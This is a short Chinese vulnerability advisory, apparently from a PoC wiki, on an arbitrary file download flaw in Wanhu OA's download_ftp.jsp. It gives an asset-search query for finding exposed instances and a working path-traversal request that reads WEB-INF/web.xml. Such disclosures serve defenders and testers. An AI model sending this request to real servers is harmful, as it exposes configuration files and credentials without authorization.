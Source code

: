 # 万户OA download_ftp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_ftp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66.png)

验证POC

```javascript
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![img](/assets/PeiQi-Wiki/img/1646135727614-308c38fd-932b-4dc1-a43d-aa5ddfe6898a.png)